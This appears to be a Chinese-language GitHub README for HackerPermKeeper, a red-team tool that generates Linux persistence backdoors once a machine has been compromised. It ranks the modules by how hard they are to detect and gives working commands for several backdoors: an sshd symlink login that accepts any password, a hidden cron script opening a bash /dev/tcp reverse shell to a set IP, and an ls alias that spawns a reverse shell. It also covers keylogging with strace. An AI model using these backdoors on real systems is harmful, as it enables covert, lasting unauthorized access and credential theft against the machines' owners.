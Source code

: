 # :lock:	HackerPermKeeper  
### 黑客权限保持者
<br/><br/>
  <p align="center">
    <a href="https://www.one-fox.cn/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%AE%89%E5%85%A8%E5%9B%A2%E9%98%9F-One--fox-pink" />
    </a>
    <a href="https://taoyuan.cool/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-taoyuan.cool-blue" />
    </a>
    <a href="https://taoyuan.cool/">
      <img alt="GitHub Contributors" src="https://img.shields.io/badge/%E4%BD%9C%E8%80%85-%E5%BC%B1%E9%B8%A1-red" />
    </a>
    <img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-black">
    <img src="https://badgen.net/github/stars/RuoJi6/HackerPermKeeper/?icon=github&color=black">
    <img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper">
    <img src="https://img.shields.io/badge/python%E7%89%88%E6%9C%AC-3_and_2-green">
</p>




通过渗透拿到权限之后，为了不让权限丢失，都会进行权限维持，而在进行权限维持的时候，红队需要花费大量的时候，来验证是否合适，因此在这款工具就诞生 HackerPermKeeper[黑客权限保持者] 
<br/>
查看下面的表格可以知道生成的权限维持文件可以运行的python版本，但是这个项目本身是python3运行的

| :lock:权限维持模块                 | centos | Ubuntu | 推荐指数 | 备注                                                         | py2 | py3 |
| :--------------------------- | ------ | ------ | -------- | ------------------------------------------------------------ | ---------------------------- | ---------------------------- |
| OpenSSH后门万能密码&记录密码 |   :x:      |:heavy_check_mark:	    |:star:	        | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x: | :heavy_check_mark: |
| PAM后门                      | :x:     | :x:     | :star:	        | 此后门需要很老的内核版本，而且需要很多依赖环境               | :x: | :x: |
| SSH软链接                    | :heavy_check_mark:	    | :heavy_check_mark:	   | :star:	:star:	       | 容易被发现                                                   | :heavy_check_mark: | :heavy_check_mark: |
| ssh公私密钥                  | :heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	:star:	:star:	:star:	    | 发现程度很难，参考了挖矿病毒                                 | :heavy_check_mark: | :heavy_check_mark: |
| 后门帐号                     | :heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	:star:	      | 用命令添加账户，不会创建用户home目录[有一个是直接指向root目录] | :heavy_check_mark: | :heavy_check_mark: |
| crontab计划任务              | :heavy_check_mark:	   | :heavy_check_mark:	   | :star:	:star:	:star:	:star:	     | 难以发现，通过执行计划任务                                   | :heavy_check_mark: | :heavy_check_mark: |
| Strace后门                   |:heavy_check_mark:	    | :heavy_check_mark:	    | :star:	:star:	       | 键盘记录的后门                                               | :heavy_check_mark: | :heavy_check_mark: |
| Alias后门                    | :heavy_check_mark:	    | :heavy_check_mark:	   | :star:	:star:	:star:	:star:	     | 别名后门，难以发现，但是需要用户去执行命令                   | :heavy_check_mark: | :heavy_check_mark: |
| Rootkit后门                  | :x:     | :x:    | :star:	:star:	:star:	      | 难以发现，但是安装复杂，而且指定内核版本                     | :x: | :x: |


## :rocket:快速使用
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/6b71f9b8-cbb4-42e3-8d1d-3a30e37163b8)

```
python3运行安全此项目，但是运行权限维持模块脚本请看上面的表格
安装依赖
pip install -r requirements.txt
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/1d4af51c-dfbe-484e-b70f-009214a4635c)

```
快速判断目标机器适合的权限维持模块，运行 /check/ 目录下的check.py文件[这个不需要任何依赖环境，python3和python2都支持]
python check.py
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/db6bb1ad-4b7d-44d8-b0bd-bd1cca3e56a7)

```
查看权限维持模块信息
python main.py -c 1
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/6eb5f2c6-9870-4988-a2a8-67a8df71c0e2)
```
查看权限维持模详细块信息
python main.py -c 2
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/5937624c-b75b-4b51-a197-118b5a14f393)

```
使用此项目生成权限维持脚本[在这之前，请先运行check.py脚本判断出目标机器适合什么类型权限维持的脚本]
python main.py -m 1   #选择模块
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/6a816d82-201d-449d-b731-c0bd0d61232f)
```
有的生成的脚本文件。需要在生成之后进行手动修改
比如：修改反弹shellip以及端口，后门用户密码，ssh密钥密码，ssh密钥等[此缺陷将会在第二个版本修复]
生成的文件会在payloads目录下产生
```
![image](https://github.com/RuoJi6/HackerPermKeeper/assets/79234113/9c145fa7-01a9-45e6-bde3-1ecb973f16e7)

使用视频：https://www.bilibili.com/video/BV1fV411N7Qc/


## :triangular_flag_on_post:	常见后门介绍
```
OpenSSH后门万能密码&记录密码（这个需要依赖环境），就是把对方的门换个锁，但是原来的钥匙也可以使用
发现程度：||

PAM后门，PAM是一个Linux登录验证的认证服务，修改其中关于ssh登录的验证，添加一个万能密码，已经记录的账号密码位置（类似把对方房间内有内鬼）
发现程度：||


SSH软链接
cat /etc/ssh/sshd_config|grep UsePAM
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
ssh root@xx.xx.xx.xx -p 8888 任意密码登录即可
发现程度：||||||


公私钥
使用密钥进行登录
发现程度：||||||


后门帐号
使用命令添加账号
发现程度：||||||


crontab后计划任务
1、编辑后门反弹
vim /etc/.111.sh

#!/bin/bash
sh -i >& /dev/tcp/192.168.86.137/3434 0>&1

chmod +x /etc/.111.sh

2、添加定时任务
vim /etc/crontab
*/1 * * * * root /etc/.1111.sh
发现程度：||||||


Strace后门
strace是一个动态跟踪工具，它可以跟踪系统调用的执行。
我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围
可以记录ssh明文和密钥（登录的）和Rootkit配合一起
发现程度：||||

命令自定义-Alias后门
alias命令的功能：为命令设置别名
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.86.137/3333 0>&1; };alerts'
执行ls就会反弹shell
持久化+隐藏：重启依旧生效
发现程度：||||

Rootkit后门
https://github.com/f0rb1dd3n/Reptile/releases/
Rootkit是一种特殊的恶意软件，它的功能是在安装目标上隐藏自身及指定的文件、进程和网络链接等信息，比较多见到的是Rootkit一般都和木马、后门等其他恶意程序结合使用。
发现程度：||
但是使用工具进行检测出来情况很大，建议看代码，手动编写此工具（难度很大）


|||||  越多，越容易发发现
||        越少，越难发现，但是部署起来，需要的依赖很多

```
<br/><br/>
## :triangular_flag_on_post:	提交问题
有问题请提交issues<br/>
<a href="https://github.com/RuoJi6/HackerPermKeeper/issues"><img src="https://badgen.net/github/issues/RuoJi6/HackerPermKeeper"></a>
<br/>
加我微信进开发者微信群聊 
<br/><img src="https://img.shields.io/badge/WeChat-vivo50KFCKFC-green">
<br/><br/>

## :star2:Stargazers over time [![Stargazers over time](https://starchart.cc/RuoJi6/HackerPermKeeper.svg)](https://starchart.cc/RuoJi6/HackerPermKeeper)




<a href="https://github.com/RuoJi6">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api?username=RuoJi6"/>
</a>
<a href="https://github.com/RuoJi6/HackerPermKeeper/">
  <img height=150 align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=RuoJi6&layout=compact&langs_count=8&card_width=320" />
</a>


